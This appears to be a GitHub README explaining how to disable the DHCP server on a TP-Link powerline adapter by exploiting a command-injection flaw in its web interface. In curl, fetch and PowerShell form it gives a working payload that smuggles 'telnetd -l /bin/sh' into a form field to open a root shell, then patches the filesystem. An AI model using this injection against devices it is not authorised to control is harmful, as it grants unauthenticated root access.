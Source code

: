# Disable DHCP
This disables the DHCP server, which breaks internet on networks with a primary DHCP server. See [this forum post on the TP-Link forums](https://community.tp-link.com/us/home/forum/topic/106148) for user complaints. TP-Link never updated the firmware on this model to add on option to disable the server.

# Usage
1. Log into powerline web interface/management page
2. Note the url/ip address to the powerline and authorization cookie
3. Send an authenticated HTTP POST request to `http://${powerline_url}/powerline?form=plc_device` with the following data. Alternatively, sent the request from your browser. Use either CURL, setting the shell script variables `powerline_url` and `authorization_cookie` to appropriate values:
```bash
curl 'http://${powerline_url}/admin/powerline?form=plc_device' -X POST -H 'Accept: application/json, text/javascript, */*; q=0.01' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: ${powerline_url}/' -H 'Origin: ${powerline_url}' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: Authorization=${authorization_cookie}' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw 'operation=remove&key=1;telnetd -l /bin/sh'
```
or this JavaScript fetch code:
```javascript
await fetch("http://192.168.0.254/admin/powerline?form=plc_device", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0",
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Pragma": "no-cache",
        "Cache-Control": "no-cache"
    },
    "referrer": "http://192.168.0.254/",
    "body": "operation=remove&key=1;telnetd -l /bin/sh",
    "method": "POST",
    "mode": "cors"
});
```
or PowerShell code (not really tested):
```powershell
$session = New-Object Microsoft.PowerShell.Commands.WebRequestSession
$session.Cookies.Add((New-Object System.Net.Cookie("Authorization", $authorizationCookie, "/", $powerlineUrl)))
Invoke-WebRequest -UseBasicParsing -Uri "http://$powerlineUrl/admin/powerline?form=plc_device" `
-Method POST `
-WebSession $session `
-Headers @{
"Accept" = "application/json, text/javascript, */*; q=0.01"
  "Accept-Language" = "en-US,en;q=0.5"
  "Accept-Encoding" = "gzip, deflate"
  "Referer" = "http://$powerlineUrl/"
  "Origin" = "http://$powerlineUrl"
  "DNT" = "1"
  "X-Requested-With" = "XMLHttpRequest"
  "Pragma" = "no-cache"
  "Cache-Control" = "no-cache"
} `
-ContentType "application/x-www-form-urlencoded; charset=UTF-8" `
-Body "operation=remove&key=1;telnetd -l /bin/sh"
```

This exploits a command injection vulnerability in the http server code on the powerline to start a telnet server. Thanks to [this blog post](https://the-hyperbolic.com/posts/hacking-the-tlwpa4220-part-1/) from the hyperbolic for a great writeup about the vulnerability.

4. Run `payload.sh` on the powerline via telnet by running on your local machine `upload-payload.sh`

Read the output and make there aren't any errors.

If you don't see any output, try increasing the sleep time higher than 15.
If the payload was interrupted or already run before, you may need to undo its partially changes before rerunning the script. I should document how to do that.

(see https://unix.stackexchange.com/a/296161) for source of this command.

5. To verify if command worked, telnet into the powerline and print the contents of `/usr/sbin/udhcpd`:
```bash
cat /usr/sbin/udhcpd
```
Verify that it is just a shell script that just creates the `/tmp/udhcpd.pid` file or something similar.

6. Kill the telnet server since that is a big vulernability
```bash
killall telnetd
```

And that's it. The DHCP server on the powerline should never start up. This process will need to be repeated each time the powerline is rebooted or loses power since this modifies only RAM and not the persistent firmware. A modified firmware could be created that disables the DHCP server permanently, but I'm scared of bricking my device, so I chose this route instead.

This device doesn't appear to have any recovery mechanisms via TFTP like some routers.

# Technical Details
The daemon LanSettingsd starts `/usr/sbin/udhcpd`, which is from `busybox`, under certain conditions.
From reverse engineering via Ghidra, one condition triggering it is when LAN settings (IP address, subnet mask, etc.) are written to (changed) from the web, but I'm not very confident about that.

This solution overwrites the `udhcpd` executable with a shell script that returns immediately instead. The shell script also creates a `/tmp/udhcpd.pid` file because LanSettingsd appears to use that file to decide whether to try starting `udhcpd` again. There shouldn't be any impact of it starting the modified `udhcpd` mulitple times, but it seems inefficient. See the function `FUN_00011070` in `LanSettingd`.

The root filesystem is a squashfs which is read-only. To allow modifications, therefore, we bind mount a tmpfs (`/tmp/hacked_sbin`) over `/usr/sbin` and put a modfied copy of the original `/usr/sbin` into the tmpfs.

I could also paste the entire command into the command injection rather than use telnet. I'm not sure if there's a character limit. In `httpd`, `execFormatCmd` appears to have a 2048 byte buffer, which might be a limit.